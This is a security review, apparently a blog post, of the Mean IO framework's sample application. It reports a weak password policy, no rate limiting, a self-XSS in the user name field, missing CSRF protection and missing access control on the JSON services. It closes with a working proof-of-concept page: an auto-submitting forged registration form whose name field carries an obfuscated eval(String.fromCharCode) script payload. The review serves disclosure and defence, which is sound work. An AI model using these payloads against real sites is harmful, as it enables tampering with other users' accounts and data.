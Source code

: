 Mean IO security review
=======================

I've been meaning to review Mean IO for some time and finally found the time to take a look at it. 

Password handling
-----------------
I was really happy to see to see that Mean IO is using pbkdf/2 for password hashing before storing it. It's using a 16 byte salt created using crypto.randomBytes and it's using 10000 rounds with a keylength of 64 bytes.

The password policy is however pretty weak. The only requirement is that passwords are between 8 and 20 characters. There are no character set requirements (upper, lower, numeric, special) and the maximum length of 20 is very odd. Why set such a low maximum length. The storage size is the same for 8 character and 100 character password after hashing.

Also there is no rate limiting or account lockout on password guessing. An external attacker can guess as many times he/she wants for the same account without getting stopped by temporary accounts lockout after a given number of tries or a captcha.


Cross Site Scripting (XSS)
--------------------------
While the templates seem to use proper escaping for most cases, there is a Cross Site Scripting vulnerability in the user's `name` field. This appears after registering a user with a username of `</script><script>alert(1)//`. This is also the only location where data is handled differently from the other data (e.g. loading data through JSON services). The problem here is that the escaping does not take into account the dual context. It is correctly escaping the data for JSON, but does not recognize that the script/JSON context is within an HTML context. This is essentially a self-XSS as it only affects the use logged in with the malicious `name` field.

I would prefer if inline `<script>`-tags were avoided all together. This would make it easier to make use of the Content Security Policy without enabling 'unsafe-inline'.

Cross Site Request Forgery
--------------------------
The MEAN IO default application does not appear to make use of any CSRF-protection. While there is a CSRF middleware available in express.js, it has not been enabled. This makes it possible to create CSRF-attacks that create, update or delete articles. CSRF also makes it possible to attack the registration process and use the XSS-attack described above against other users.

Data manipulation and lack of access control
--------------------------------------------
The MEAN IO currently sample application does not have a proper access control. While only the author of an article, can edit or delete that article through the UI, an attacker can easily edit or delete other users' articles by invoking the JSON services directly.

Also the application does not limit which fields can be altered. As an example the timestamp of the article is not editable through the UI. But again by invoking the JSON service directly, an attacker can alter fields expected to be read-only.

Sample exploit code
-------------------
CSRF exploiting the self-XSS in the `name`-field:

````
<body onload="document.getElementById('aForm').submit()">
<form id="aForm" method="post" action="http://localhost:3000/register" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="username" value="someusername">
<input type="hidden" name="email" value="test@example.com">
<input type="hidden" name="name" value='</script><script>alert(1);eval(String.fromCharCode(119,105,110,100,111,119,46,117,115,101,114,32,61,32,123,34,110,97,109,101,34,58,34,104,97,99,107,101,100,34,44,34,95,105,100,34,58,34,53,52,49,100,97,49,50,99,48,97,99,101,52,51,55,51,55,49,48,48,56,97,102,57,34,44,34,117,115,101,114,110,97,109,101,34,58,34,104,97,99,107,101,100,34,44,34,114,111,108,101,115,34,58,91,34,97,117,116,104,101,110,116,105,99,97,116,101,100,34,93,125))//'>
<input type="hidden" name="password" value="AAAAAAAA">
<input type="hidden" name="confirmPassword" value="AAAAAAAA">
</form>
</body>
````













